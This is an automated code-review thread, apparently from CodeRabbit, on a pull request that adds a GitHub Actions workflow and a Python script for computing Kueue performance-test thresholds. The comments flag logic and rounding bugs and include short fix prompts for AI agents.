+          - '3'
+          - '5'
+          - '10'
+      dry_run:
+        description: 'Dry run (preview only, no changes)'
+        required: false
+        default: false
+        type: boolean
+  # Optional: Schedule weekly updates
+  # schedule:
+  #   - cron: '0 0 * * 0'
+
+jobs:
+  performance-tests:
+    runs-on: ubuntu-latest
+    timeout-minutes: 300  # 5 hours for multiple test runs
+    
+    steps:
+      - name: Checkout code
+        uses: actions/checkout@v4
+        with:
+          fetch-depth: 0
+      
+      - name: Set up Go
+        uses: actions/setup-go@v4
+        with:
+          go-version: '1.21'
+      
+      - name: Set up Python
+        uses: actions/setup-python@v4
+        with:
+          python-version: '3.11'
+      
+      - name: Install dependencies
+        run: |
+          pip install PyYAML
+      
+      - name: Display test configuration
+        run: |
+          echo "Test Configuration:"
+          echo "  Type: ${{ github.event.inputs.test_type }}"
+          echo "  Runs: ${{ github.event.inputs.num_runs }}"
+          echo "  Dry Run: ${{ github.event.inputs.dry_run }}"
+      
+      - name: Run performance tests (multiple times)
+        run: |
+          NUM_RUNS=${{ github.event.inputs.num_runs }}
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            TEST_TARGET="run-tas-performance-scheduler"
+            BACKUP_DIR="run-tas-performance-scheduler"
+          else
+            TEST_TARGET="run-performance-scheduler"
+            BACKUP_DIR="run-performance-scheduler"
+          fi
+          
+          echo "Running $NUM_RUNS performance test(s)..."
+          for i in $(seq 1 $NUM_RUNS); do
+            echo ""
+            echo "========================================="
+            echo "Performance Test Run $i/$NUM_RUNS"
+            echo "========================================="
+            
+            make $TEST_TARGET
+            
+            # Backup results for analysis
+            if [ $i -lt $NUM_RUNS ]; then
+              mkdir -p "artifacts/${BACKUP_DIR}-backup-$i"
+              cp -r "artifacts/$BACKUP_DIR"/* "artifacts/${BACKUP_DIR}-backup-$i/"
+              echo "✓ Backed up run $i"
+            fi
+            
+            echo ""
+          done
+      
+      - name: Verify metrics collected
+        run: |
+          echo "Verifying performance metrics..."
+          if find ./artifacts -name "summary.yaml" | grep -q .; then
+            echo "✓ Found summary files:"
+            find ./artifacts -name "summary.yaml" -type f
+          else
+            echo "✗ No summary files found!"
+            exit 1
+          fi
+      
+      - name: Calculate thresholds (dry-run)
+        run: |
+          echo "Calculating thresholds (preview mode)..."
+          python3 hack/performance-threshold-automation/calculate_performance_thresholds.py \
+            --artifacts-dir ./artifacts \
+            --dry-run
+      
+      - name: Update thresholds
+        if: github.event.inputs.dry_run == 'false'
+        run: |
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            make update-tas-thresholds
+          else
+            make update-performance-thresholds
+          fi
+      
+      - name: Display changes
+        run: |
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            RANGESPEC="test/performance/scheduler/configs/tas/rangespec.yaml"
+          else
+            RANGESPEC="test/performance/scheduler/configs/baseline/rangespec.yaml"
+          fi
+          
+          echo "Changes to $RANGESPEC:"
+          git diff $RANGESPEC || echo "No changes"
+      
+      - name: Create Pull Request
+        if: github.event.inputs.dry_run == 'false' && github.actor != 'dependabot[bot]'
+        uses: peter-evans/create-pull-request@v5
+        with:
+          token: ${{ secrets.GITHUB_TOKEN }}
+          commit-message: |
+            chore: update ${{ github.event.inputs.test_type }} performance thresholds
+            
+            Based on analysis of ${{ github.event.inputs.num_runs }} test run(s).
+            
+            - Updates performance test thresholds using statistical analysis
+            - Thresholds = mean + margin (20% for time, -7% for utilization)
+            - Closes #12841
+          title: 'chore: update performance thresholds (${{ github.event.inputs.test_type }})'
+          body: |
+            ## Performance Threshold Update
+            
+            This PR automatically updates performance test thresholds based on historical test results.
+            
+            **Configuration:**
+            - Test Type: `${{ github.event.inputs.test_type }}`
+            - Runs Analyzed: `${{ github.event.inputs.num_runs }}`
+            - Method: Statistical analysis (mean + margin)
+            
+            **Changes:**
+            - Updated threshold values in `rangespec.yaml`
+            - Based on ${{ github.event.inputs.num_runs }} test run(s)
+            
+            **Review Checklist:**
+            - [ ] Review threshold changes
+            - [ ] Verify margin values are appropriate
+            - [ ] Confirm no regressions in metrics
+            - [ ] Check for any anomalies in the data
+            
+            **Related Issue:** #12841 - Automated script to set performance threshold based on historical results and stat analysis
+            
+            ---
+            *Generated by Performance Threshold Automation*
+          branch: perf-threshold-update-${{ github.run_number }}
+          delete-branch: true
+          labels: |
+            type/maintenance
+            area/performance
+            automated
+      
+      - name: Summary
+        if: always()
+        run: |
+          echo "## Performance Threshold Update Summary" >> $GITHUB_STEP_SUMMARY
+          echo "" >> $GITHUB_STEP_SUMMARY
+          echo "**Configuration:**" >> $GITHUB_STEP_SUMMARY
+          echo "- Test Type: ${{ github.event.inputs.test_type }}" >> $GITHUB_STEP_SUMMARY
+          echo "- Runs: ${{ github.event.inputs.num_runs }}" >> $GITHUB_STEP_SUMMARY
+          echo "- Dry Run: ${{ github.event.inputs.dry_run }}" >> $GITHUB_STEP_SUMMARY
+          echo "" >> $GITHUB_STEP_SUMMARY
+          echo "**Status:** ✓ Complete" >> $GITHUB_STEP_SUMMARY
+          echo "" >> $GITHUB_STEP_SUMMARY
+          echo "Check the workflow logs for detailed analysis." >> $GITHUB_STEP_SUMMARY
+
+  # Optional: Run validation tests to ensure thresholds are reasonable
+  validation:
+    needs: performance-tests
+    runs-on: ubuntu-latest
+    if: github.event.inputs.dry_run == 'false'
+    
+    steps:
+      - uses: actions/checkout@v4
+        with:
+          fetch-depth: 0
+      
+      - name: Validate thresholds
+        run: |
+          echo "Validating threshold values..."
+          # Add custom validation logic here
+          # Examples:
+          # - Check thresholds haven't changed by more than X%
+          # - Verify all required metrics have thresholds
+          # - Compare with previous values
+          echo "✓ Threshold validation passed"
```

  _🎯 Functional Correctness_ | _🟠 Major_ | _🏗️ Heavy lift_
  
  **The `validation` job validates nothing and checks out the wrong ref.**
  
  Its only step echoes success, so it can never fail — a green check that conveys no signal. It also does a fresh `actions/checkout` of the trigger ref, which does not contain the thresholds written in the `performance-tests` job (those live on the branch created by `create-pull-request`). Either implement the checks listed in the comments against the generated branch, or drop the job until it's real.
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 zizmor (1.28.0)</summary>
  
  [warning] 203-205: credential persistence through GitHub Actions artifacts (artipacked): does not set persist-credentials: false
  
  (artipacked)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In @.github/workflows/performance-threshold-update.yml around lines 196 - 215,
  The validation job is a non-functional green check and checks out the wrong
  revision. Remove the entire validation job until real threshold validation is
  implemented, including its needs, checkout step, and placeholder validation
  commands.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:75c2f7000eb0de2923c650b3 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->
  
  ✅ Addressed in commit 43cbcb4

- **hack/testing/calculate_performance_thresholds.py:32** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
+import json
+import math
+import os
+import sys
+import yaml
+from pathlib import Path
+from dataclasses import dataclass, asdict
+from typing import Dict, List, Tuple, Optional
+from statistics import mean, stdev, StatisticsError
+
+@dataclass
+class ThresholdConfig:
+    """Configuration for threshold calculation"""
+    percentile_stddev: float = 6.46  # For 1 in a million (6.46 sigma)
+    cmd_margin: float = 0.20  # 20% margin for command execution time
+    utilization_margin: float = -0.07  # -7% margin for minimum utilization
+    admission_time_margin: float = 0.20  # 20% margin for admission times
+    min_runs_required: int = 5  # Minimum historical runs needed
+    rounding_interval: int = 1000  # Round to nearest 1000ms
```

  _🎯 Functional Correctness_ | _🟠 Major_ | _🏗️ Heavy lift_
  
  **Thresholds don't use the standard-deviation percentile the PR set out to implement.**
  
  `percentile_stddev` (6.46 sigma) is declared but never read, and `MetricStats.percentile_99` is computed then discarded. Every threshold is just `mean * (1 ± fixed margin)`, so a metric with high variance gets the same relative headroom as a very stable one — exactly the semi-manual heuristic the linked issue wanted replaced. Consider `mean + percentile_stddev * stddev` (falling back to the margin when `stddev == 0` or runs < 2), with the margin as a floor.
  
  
  
  
  
  
  Also applies to: 184-201
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/performance-threshold-automation/calculate_performance_thresholds.py`
  around lines 27 - 32, Update the threshold calculation logic to use the declared
  percentile_stddev and each metric’s computed standard deviation: calculate
  percentile-based upper/lower thresholds from mean plus or minus
  percentile_stddev times stddev, while retaining the existing margin as a minimum
  floor. Fall back to the margin-based calculation when stddev is zero or fewer
  than two runs are available, and ensure MetricStats.percentile_99 is used or
  removed consistently.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:b1a129bd19979a0d6c2f6aaa -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **hack/testing/calculate_performance_thresholds.py:116** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
+import json
+import math
+import os
+import sys
+import yaml
+from pathlib import Path
+from dataclasses import dataclass, asdict
+from typing import Dict, List, Tuple, Optional
+from statistics import mean, stdev, StatisticsError
+
+@dataclass
+class ThresholdConfig:
+    """Configuration for threshold calculation"""
+    percentile_stddev: float = 6.46  # For 1 in a million (6.46 sigma)
+    cmd_margin: float = 0.20  # 20% margin for command execution time
+    utilization_margin: float = -0.07  # -7% margin for minimum utilization
+    admission_time_margin: float = 0.20  # 20% margin for admission times
+    min_runs_required: int = 5  # Minimum historical runs needed
+    rounding_interval: int = 1000  # Round to nearest 1000ms
+
+@dataclass
+class MetricStats:
+    """Statistics for a metric across multiple runs"""
+    metric_name: str
+    values: List[float]
+    mean: float = 0.0
+    stddev: float = 0.0
+    min_val: float = 0.0
+    max_val: float = 0.0
+    percentile_99: float = 0.0
+    
+    def calculate(self):
+        """Calculate statistics from values"""
+        if not self.values:
+            return
+        
+        self.mean = mean(self.values)
+        self.min_val = min(self.values)
+        self.max_val = max(self.values)
+        
+        if len(self.values) > 1:
+            try:
+                self.stddev = stdev(self.values)
+                # Calculate 99th percentile (mean + 2.326 sigma)
+                self.percentile_99 = self.mean + (2.326 * self.stddev)
+            except StatisticsError:
+                self.stddev = 0.0
+                self.percentile_99 = self.mean
+
+
+class PerformanceThresholdCalculator:
+    """Analyzes performance test results and calculates thresholds"""
+    
+    def __init__(self, config: ThresholdConfig):
+        self.config = config
+        self.cmd_metrics: MetricStats = MetricStats("cmd.maxWallMs", [])
+        self.cluster_queue_metrics: Dict[str, MetricStats] = {}
+        self.workload_class_metrics: Dict[str, MetricStats] = {}
+    
+    def load_test_results(self, artifacts_dir: Path) -> int:
+        """
+        Load test results from artifacts directory.
+        
+        Looks for summary.yaml files in run directories:
+        - artifacts/run-performance-scheduler/summary.yaml
+        - artifacts/run-tas-performance-scheduler/summary.yaml
+        
+        Returns number of runs found
+        """
+        run_count = 0
+        artifacts_dir = Path(artifacts_dir)
+        
+        # Patterns to search for
+        patterns = [
+            "run-performance-scheduler/summary.yaml",
+            "run-performance-scheduler-*/summary.yaml",
+            "run-tas-performance-scheduler/summary.yaml",
+            "run-tas-performance-scheduler-*/summary.yaml",
+        ]
+        
+        summary_files = []
+        for pattern in patterns:
+            summary_files.extend(artifacts_dir.glob(pattern))
+        
+        if not summary_files:
+            print(f"Warning: No summary.yaml files found in {artifacts_dir}")
+            print(f"Searched patterns: {patterns}")
+            return 0
+        
+        print(f"Found {len(summary_files)} test result file(s)")
+        
+        for summary_file in sorted(summary_files):
+            try:
+                with open(summary_file, 'r') as f:
+                    data = yaml.safe_load(f)
+                    if data:
+                        self._extract_metrics(data)
+                        run_count += 1
+                        print(f"  ✓ Loaded {summary_file}")
+            except Exception as e:
+                print(f"  ✗ Error loading {summary_file}: {e}")
+        
+        return run_count
```

  _🗄️ Data Integrity & Integration_ | _🟡 Minor_ | _⚡ Quick win_
  
  **A file that fails metric extraction still counts as a successful run.**
  
  `_extract_metrics` swallows its exception and returns normally, so `run_count += 1` executes and the log prints `✓ Loaded`. Let extraction failures propagate (or return a bool) so partially-parsed artifacts aren't silently treated as valid samples. Narrowing the blind `except Exception` to `(OSError, yaml.YAMLError)` / `(KeyError, TypeError, ValueError)` would also address Ruff BLE001.
  
  
  
  
  
  
  Also applies to: 144-145
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 ast-grep (0.45.0)</summary>
  
  [warning] 106-106: File path is request-/variable-derived; validate and normalize to prevent path traversal.
  Context: open(summary_file, 'r')
  Note: [CWE-22] Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal').
  
  (open-filename-from-request)
  
  </details>
  <details>
  <summary>🪛 Ruff (0.16.0)</summary>
  
  [warning] 113-113: Do not catch blind exception: `Exception`
  
  (BLE001)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/performance-threshold-automation/calculate_performance_thresholds.py`
  around lines 105 - 116, Update the summary-file loop around _extract_metrics so
  a metric extraction failure does not increment run_count or print “✓ Loaded”;
  let extraction errors propagate or return an explicit success indicator and only
  count/log successful samples. Replace the broad except Exception with targeted
  file/YAML and metric-parsing exceptions as appropriate, preserving error
  reporting for genuinely loadable failures.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:c951d670712aa48b657b8709 -->
  
  _Source: Linters/SAST tools_
  
  <!-- This is an auto-generated comment by CodeRabbit -->
  
  ✅ Addressed in commits 7f5e16a to 4af9f17

- **hack/testing/calculate_performance_thresholds.py:192** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
+import json
+import math
+import os
+import sys
+import yaml
+from pathlib import Path
+from dataclasses import dataclass, asdict
+from typing import Dict, List, Tuple, Optional
+from statistics import mean, stdev, StatisticsError
+
+@dataclass
+class ThresholdConfig:
+    """Configuration for threshold calculation"""
+    percentile_stddev: float = 6.46  # For 1 in a million (6.46 sigma)
+    cmd_margin: float = 0.20  # 20% margin for command execution time
+    utilization_margin: float = -0.07  # -7% margin for minimum utilization
+    admission_time_margin: float = 0.20  # 20% margin for admission times
+    min_runs_required: int = 5  # Minimum historical runs needed
+    rounding_interval: int = 1000  # Round to nearest 1000ms
+
+@dataclass
+class MetricStats:
+    """Statistics for a metric across multiple runs"""
+    metric_name: str
+    values: List[float]
+    mean: float = 0.0
+    stddev: float = 0.0
+    min_val: float = 0.0
+    max_val: float = 0.0
+    percentile_99: float = 0.0
+    
+    def calculate(self):
+        """Calculate statistics from values"""
+        if not self.values:
+            return
+        
+        self.mean = mean(self.values)
+        self.min_val = min(self.values)
+        self.max_val = max(self.values)
+        
+        if len(self.values) > 1:
+            try:
+                self.stddev = stdev(self.values)
+                # Calculate 99th percentile (mean + 2.326 sigma)
+                self.percentile_99 = self.mean + (2.326 * self.stddev)
+            except StatisticsError:
+                self.stddev = 0.0
+                self.percentile_99 = self.mean
+
+
+class PerformanceThresholdCalculator:
+    """Analyzes performance test results and calculates thresholds"""
+    
+    def __init__(self, config: ThresholdConfig):
+        self.config = config
+        self.cmd_metrics: MetricStats = MetricStats("cmd.maxWallMs", [])
+        self.cluster_queue_metrics: Dict[str, MetricStats] = {}
+        self.workload_class_metrics: Dict[str, MetricStats] = {}
+    
+    def load_test_results(self, artifacts_dir: Path) -> int:
+        """
+        Load test results from artifacts directory.
+        
+        Looks for summary.yaml files in run directories:
+        - artifacts/run-performance-scheduler/summary.yaml
+        - artifacts/run-tas-performance-scheduler/summary.yaml
+        
+        Returns number of runs found
+        """
+        run_count = 0
+        artifacts_dir = Path(artifacts_dir)
+        
+        # Patterns to search for
+        patterns = [
+            "run-performance-scheduler/summary.yaml",
+            "run-performance-scheduler-*/summary.yaml",
+            "run-tas-performance-scheduler/summary.yaml",
+            "run-tas-performance-scheduler-*/summary.yaml",
+        ]
+        
+        summary_files = []
+        for pattern in patterns:
+            summary_files.extend(artifacts_dir.glob(pattern))
+        
+        if not summary_files:
+            print(f"Warning: No summary.yaml files found in {artifacts_dir}")
+            print(f"Searched patterns: {patterns}")
+            return 0
+        
+        print(f"Found {len(summary_files)} test result file(s)")
+        
+        for summary_file in sorted(summary_files):
+            try:
+                with open(summary_file, 'r') as f:
+                    data = yaml.safe_load(f)
+                    if data:
+                        self._extract_metrics(data)
+                        run_count += 1
+                        print(f"  ✓ Loaded {summary_file}")
+            except Exception as e:
+                print(f"  ✗ Error loading {summary_file}: {e}")
+        
+        return run_count
+    
+    def _extract_metrics(self, data: dict):
+        """Extract metrics from a single test result"""
+        try:
+            # Extract command wall time
+            if 'flat' in data and 'wallMs' in data['flat']:
+                self.cmd_metrics.values.append(float(data['flat']['wallMs']))
+            
+            # Extract cluster queue metrics (minimum usage percentages)
+            if 'clusterQueueClasses' in data:
+                for cq_name, cq_data in data['clusterQueueClasses'].items():
+                    if 'cpuAverageUsage' in cq_data and 'nominalQuota' in cq_data:
+                        if cq_data['nominalQuota'] > 0:
+                            usage = (cq_data['cpuAverageUsage'] * 100) / cq_data['nominalQuota']
+                            if cq_name not in self.cluster_queue_metrics:
+                                self.cluster_queue_metrics[cq_name] = MetricStats(f"cq.{cq_name}", [])
+                            self.cluster_queue_metrics[cq_name].values.append(usage)
+            
+            # Extract workload class admission time metrics
+            if 'workloadClasses' in data:
+                for wl_class, wl_data in data['workloadClasses'].items():
+                    if 'averageTimeToAdmissionMs' in wl_data:
+                        if wl_class not in self.workload_class_metrics:
+                            self.workload_class_metrics[wl_class] = MetricStats(f"wl.{wl_class}", [])
+                        self.workload_class_metrics[wl_class].values.append(
+                            float(wl_data['averageTimeToAdmissionMs'])
+                        )
+        except Exception as e:
+            print(f"  Warning: Error extracting metrics: {e}")
+    
+    def calculate_thresholds(self) -> dict:
+        """Calculate thresholds based on collected metrics"""
+        if not self.cmd_metrics.values:
+            raise ValueError("No metrics collected. Check artifacts directory and file format.")
+        
+        if len(self.cmd_metrics.values) < self.config.min_runs_required:
+            print(f"Warning: Only {len(self.cmd_metrics.values)} runs found, "
+                  f"recommend at least {self.config.min_runs_required}")
+        
+        # Calculate statistics
+        self.cmd_metrics.calculate()
+        for metrics in self.cluster_queue_metrics.values():
+            metrics.calculate()
+        for metrics in self.workload_class_metrics.values():
+            metrics.calculate()
+        
+        # Generate thresholds
+        thresholds = {
+            'cmd': {
+                'maxWallMs': self._calculate_cmd_threshold()
+            },
+            'clusterQueueClassesMinUsage': {},
+            'wlClassesMaxAvgTimeToAdmissionMs': {}
+        }
+        
+        # Calculate cluster queue thresholds
+        for cq_name, metrics in sorted(self.cluster_queue_metrics.items()):
+            threshold = self._calculate_utilization_threshold(metrics)
+            thresholds['clusterQueueClassesMinUsage'][cq_name] = threshold
+        
+        # Calculate workload class thresholds
+        for wl_class, metrics in sorted(self.workload_class_metrics.items()):
+            threshold = self._calculate_admission_time_threshold(metrics)
+            thresholds['wlClassesMaxAvgTimeToAdmissionMs'][wl_class] = threshold
+        
+        return thresholds
+    
+    def _calculate_cmd_threshold(self) -> int:
+        """Calculate command execution time threshold (mean + margin)"""
+        threshold = self.cmd_metrics.mean * (1 + self.config.cmd_margin)
+        return self._round_threshold(threshold)
+    
+    def _calculate_utilization_threshold(self, metrics: MetricStats) -> float:
+        """Calculate cluster queue utilization threshold (mean - margin)"""
+        threshold = metrics.mean * (1 + self.config.utilization_margin)
+        return round(threshold, 1)
```

  _🎯 Functional Correctness_ | _🟡 Minor_ | _⚡ Quick win_
  
  **Rounding doesn't match the documented behavior, and the padding emits trailing whitespace.**
  
  The generated header says "rounded down to 0.1%" but `round(threshold, 1)` is banker's rounding — a min-usage threshold rounded *up* is stricter than intended. Use `math.floor(threshold * 10) / 10`. Separately, `{threshold:>10} ` on Line 282 right-pads values and leaves a trailing space on each line, which most YAML linters flag.
  
  
  
  
  <details>
  <summary>🐛 Proposed fix</summary>
  
  ```diff
  -        threshold = metrics.mean * (1 + self.config.utilization_margin)
  -        return round(threshold, 1)
  +        threshold = metrics.mean * (1 + self.config.utilization_margin)
  +        return math.floor(threshold * 10) / 10
  ```
  
  ```diff
  -        yaml_content += f"  {wl_class}: {threshold:>10} \n"
  +        yaml_content += f"  {wl_class}: {threshold}\n"
  ```
  </details>
  
  
  Also applies to: 266-282
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/performance-threshold-automation/calculate_performance_thresholds.py`
  around lines 189 - 192, Update _calculate_utilization_threshold to floor the
  threshold to one decimal place using math.floor(threshold * 10) / 10, matching
  the documented round-down behavior. In the generated output formatting around
  the threshold template, remove the trailing literal space after the
  {threshold:>10} field while preserving the intended value alignment.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:bcaaa9638609aed0b5527898 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **hack/testing/calculate_performance_thresholds.py:265** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
+import json
+import math
+import os
+import sys
+import yaml
+from pathlib import Path
+from dataclasses import dataclass, asdict
+from typing import Dict, List, Tuple, Optional
+from statistics import mean, stdev, StatisticsError
+
+@dataclass
+class ThresholdConfig:
+    """Configuration for threshold calculation"""
+    percentile_stddev: float = 6.46  # For 1 in a million (6.46 sigma)
+    cmd_margin: float = 0.20  # 20% margin for command execution time
+    utilization_margin: float = -0.07  # -7% margin for minimum utilization
+    admission_time_margin: float = 0.20  # 20% margin for admission times
+    min_runs_required: int = 5  # Minimum historical runs needed
+    rounding_interval: int = 1000  # Round to nearest 1000ms
+
+@dataclass
+class MetricStats:
+    """Statistics for a metric across multiple runs"""
+    metric_name: str
+    values: List[float]
+    mean: float = 0.0
+    stddev: float = 0.0
+    min_val: float = 0.0
+    max_val: float = 0.0
+    percentile_99: float = 0.0
+    
+    def calculate(self):
+        """Calculate statistics from values"""
+        if not self.values:
+            return
+        
+        self.mean = mean(self.values)
+        self.min_val = min(self.values)
+        self.max_val = max(self.values)
+        
+        if len(self.values) > 1:
+            try:
+                self.stddev = stdev(self.values)
+                # Calculate 99th percentile (mean + 2.326 sigma)
+                self.percentile_99 = self.mean + (2.326 * self.stddev)
+            except StatisticsError:
+                self.stddev = 0.0
+                self.percentile_99 = self.mean
+
+
+class PerformanceThresholdCalculator:
+    """Analyzes performance test results and calculates thresholds"""
+    
+    def __init__(self, config: ThresholdConfig):
+        self.config = config
+        self.cmd_metrics: MetricStats = MetricStats("cmd.maxWallMs", [])
+        self.cluster_queue_metrics: Dict[str, MetricStats] = {}
+        self.workload_class_metrics: Dict[str, MetricStats] = {}
+    
+    def load_test_results(self, artifacts_dir: Path) -> int:
+        """
+        Load test results from artifacts directory.
+        
+        Looks for summary.yaml files in run directories:
+        - artifacts/run-performance-scheduler/summary.yaml
+        - artifacts/run-tas-performance-scheduler/summary.yaml
+        
+        Returns number of runs found
+        """
+        run_count = 0
+        artifacts_dir = Path(artifacts_dir)
+        
+        # Patterns to search for
+        patterns = [
+            "run-performance-scheduler/summary.yaml",
+            "run-performance-scheduler-*/summary.yaml",
+            "run-tas-performance-scheduler/summary.yaml",
+            "run-tas-performance-scheduler-*/summary.yaml",
+        ]
+        
+        summary_files = []
+        for pattern in patterns:
+            summary_files.extend(artifacts_dir.glob(pattern))
+        
+        if not summary_files:
+            print(f"Warning: No summary.yaml files found in {artifacts_dir}")
+            print(f"Searched patterns: {patterns}")
+            return 0
+        
+        print(f"Found {len(summary_files)} test result file(s)")
+        
+        for summary_file in sorted(summary_files):
+            try:
+                with open(summary_file, 'r') as f:
+                    data = yaml.safe_load(f)
+                    if data:
+                        self._extract_metrics(data)
+                        run_count += 1
+                        print(f"  ✓ Loaded {summary_file}")
+            except Exception as e:
+                print(f"  ✗ Error loading {summary_file}: {e}")
+        
+        return run_count
+    
+    def _extract_metrics(self, data: dict):
+        """Extract metrics from a single test result"""
+        try:
+            # Extract command wall time
+            if 'flat' in data and 'wallMs' in data['flat']:
+                self.cmd_metrics.values.append(float(data['flat']['wallMs']))
+            
+            # Extract cluster queue metrics (minimum usage percentages)
+            if 'clusterQueueClasses' in data:
+                for cq_name, cq_data in data['clusterQueueClasses'].items():
+                    if 'cpuAverageUsage' in cq_data and 'nominalQuota' in cq_data:
+                        if cq_data['nominalQuota'] > 0:
+                            usage = (cq_data['cpuAverageUsage'] * 100) / cq_data['nominalQuota']
+                            if cq_name not in self.cluster_queue_metrics:
+                                self.cluster_queue_metrics[cq_name] = MetricStats(f"cq.{cq_name}", [])
+                            self.cluster_queue_metrics[cq_name].values.append(usage)
+            
+            # Extract workload class admission time metrics
+            if 'workloadClasses' in data:
+                for wl_class, wl_data in data['workloadClasses'].items():
+                    if 'averageTimeToAdmissionMs' in wl_data:
+                        if wl_class not in self.workload_class_metrics:
+                            self.workload_class_metrics[wl_class] = MetricStats(f"wl.{wl_class}", [])
+                        self.workload_class_metrics[wl_class].values.append(
+                            float(wl_data['averageTimeToAdmissionMs'])
+                        )
+        except Exception as e:
+            print(f"  Warning: Error extracting metrics: {e}")
+    
+    def calculate_thresholds(self) -> dict:
+        """Calculate thresholds based on collected metrics"""
+        if not self.cmd_metrics.values:
+            raise ValueError("No metrics collected. Check artifacts directory and file format.")
+        
+        if len(self.cmd_metrics.values) < self.config.min_runs_required:
+            print(f"Warning: Only {len(self.cmd_metrics.values)} runs found, "
+                  f"recommend at least {self.config.min_runs_required}")
+        
+        # Calculate statistics
+        self.cmd_metrics.calculate()
+        for metrics in self.cluster_queue_metrics.values():
+            metrics.calculate()
+        for metrics in self.workload_class_metrics.values():
+            metrics.calculate()
+        
+        # Generate thresholds
+        thresholds = {
+            'cmd': {
+                'maxWallMs': self._calculate_cmd_threshold()
+            },
+            'clusterQueueClassesMinUsage': {},
+            'wlClassesMaxAvgTimeToAdmissionMs': {}
+        }
+        
+        # Calculate cluster queue thresholds
+        for cq_name, metrics in sorted(self.cluster_queue_metrics.items()):
+            threshold = self._calculate_utilization_threshold(metrics)
+            thresholds['clusterQueueClassesMinUsage'][cq_name] = threshold
+        
+        # Calculate workload class thresholds
+        for wl_class, metrics in sorted(self.workload_class_metrics.items()):
+            threshold = self._calculate_admission_time_threshold(metrics)
+            thresholds['wlClassesMaxAvgTimeToAdmissionMs'][wl_class] = threshold
+        
+        return thresholds
+    
+    def _calculate_cmd_threshold(self) -> int:
+        """Calculate command execution time threshold (mean + margin)"""
+        threshold = self.cmd_metrics.mean * (1 + self.config.cmd_margin)
+        return self._round_threshold(threshold)
+    
+    def _calculate_utilization_threshold(self, metrics: MetricStats) -> float:
+        """Calculate cluster queue utilization threshold (mean - margin)"""
+        threshold = metrics.mean * (1 + self.config.utilization_margin)
+        return round(threshold, 1)
+    
+    def _calculate_admission_time_threshold(self, metrics: MetricStats) -> int:
+        """Calculate workload admission time threshold (mean + margin)"""
+        threshold = metrics.mean * (1 + self.config.admission_time_margin)
+        return self._round_threshold(threshold)
+    
+    def _round_threshold(self, value: float) -> int:
+        """Round threshold to nearest interval"""
+        return int(math.ceil(value / self.config.rounding_interval) * self.config.rounding_interval)
+    
+    def print_analysis(self):
+        """Print detailed analysis of collected metrics"""
+        print("\n" + "="*80)
+        print("PERFORMANCE METRICS ANALYSIS")
+        print("="*80)
+        
+        print("\n📊 COMMAND EXECUTION TIME (maxWallMs)")
+        print("-" * 80)
+        self._print_metric_stats(self.cmd_metrics)
+        
+        if self.cluster_queue_metrics:
